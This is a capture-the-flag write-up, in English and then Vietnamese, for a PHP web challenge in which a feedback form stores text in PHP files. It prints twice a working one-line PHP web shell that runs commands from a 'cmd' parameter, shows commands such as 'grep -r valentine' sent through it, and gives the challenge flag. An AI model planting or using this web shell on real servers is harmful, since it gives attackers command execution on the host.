 ![image](https://user-images.githubusercontent.com/109911533/221137626-10d76e4a-d796-4d5f-8803-1a6323f5cb9f.png)<br />

Let's take a look at the site.<br />
![image](https://user-images.githubusercontent.com/109911533/221138227-7ddb028a-928e-4445-a59d-5aac16879380.png)<br />

The site said is under construction,but we can write some recommendations to the site with less than 80 characters. Now let's try sending some text to too see what happened.<br ?>

![image](https://user-images.githubusercontent.com/109911533/221139242-2d6d3322-7898-485a-9ade-7f4069bdf147.png)<br />

Looks like the page is running on php. If you visit that url, you can find your message there.<br />
![image](https://user-images.githubusercontent.com/109911533/221139466-1e29c2df-a19c-42f3-91e4-e437071a2110.png)<br />

So what i tried to do here is, i tried sending different messages to see whether it will just be all php. And it is. When sending different messages, the site wil generate a random php file and save the text on it. So, by asking ChatGPPT about this, i know that this website might be vulnerable to php injection.<br />

This is what i used.<br />
```php
<?php if(isset($_REQUEST['cmd'])){ echo "<pre>"; $cmd = ($_REQUEST['cmd']); system($cmd); echo "</pre>"; die; }?>
```

Basically, what this command do is: if the website doesn't santize the the "cmd" parameter, this command will execute, giving you a backdoor to the server rev shell. Then you can execute code like a shell it is.<br />
Let's send it to the server.<br />
After sending it to the server, you can now execute code using the cmd parameter ?cmd= "command"<br />
Running the ls command, i see that it dump out all the php file ... i guess it's not random, but rather randomly choose 1 file and save your message in it.Now we know that it is working, we can simply grep it with "grep -r valentine".<br />

![image](https://user-images.githubusercontent.com/109911533/221144963-bd261812-16ad-409f-9ada-097a5903ec08.png)<br />

And there ya go.<br />
___Flag: valentine{n3ver_g0nn4_give_y0u_up}___<br />

---------------------------------------------------------------------------------------------------------------------------------
HÌnh ảnh có thể xem lại ở trên<br />

Bài này là về php injection.<br />
Thì đầu tiên, bài này đang kêu chúng ta gửi một tin nhắn đến trang web để có thể đưa ra ý kiến về trang web nên như thế nào.<br />

Thì gửi thử "hello bro" tới server, ta thấy web thông báo là tin nhắn của chúng ta được lưu ở một file php. Nên tui đã làm là thử gửi nhiều tin nhắn để xem như thế nào, thì tui thấy là mỗi một tin nhắn sẽ được lưu ở một file php random khác nhau, nên có thể nghĩ theo hướng là php injection.<br />

Thì tui đã sử dụng một command khá là phổ biến có sẵn trên mạng, là:<br />
```php
<?php if(isset($_REQUEST['cmd'])){ echo "<pre>"; $cmd = ($_REQUEST['cmd']); system($cmd); echo "</pre>"; die; }?>
```
Command này được sử dụng khi một web không sử lý những thông tin được input, nếu biến "cmd" không được xử lý kỹ có thể dẫn tới việc chiếm shell web, từ đó có thể thực thi các lệnh trên trang web như là 1 shell. Có thể đọc ở đây: https://www.acunetix.com/blog/articles/web-shells-101-using-php-introduction-web-shells-part-2/<br />
Gửi lệnh này tới server, sau đó nhận thông báo là tin nhắn được lưu ở một trang, truy cập trang web đó, ta có thể bắt đầu sử dụng các command với parameter ?cmd= command<br />
Sử dụng lệnh ?cmd=ls ta có thể list ra tất cả các file thì có thể thấy có rất nhiều file php, và không có file flag hay flag.txt, nên có thể flag đã nằm một trong những file php.<br />
Nếu xài lệnh cat để kiểm tra thì sẽ rất lâu cho từng file, nên sử dụng lệnh ?cmd=grep -r valentine.<br />
Grep sẽ như một ctrl F, -r(recursively) sẽ là lệnh để tìm liên tục, kiểu như scan từng file một để tìm cho ta chuỗi "valentine". Sau đó nó sẽ in ra tên file chứa chuỗi đó + chuỗi đó.
Và ta có flag.



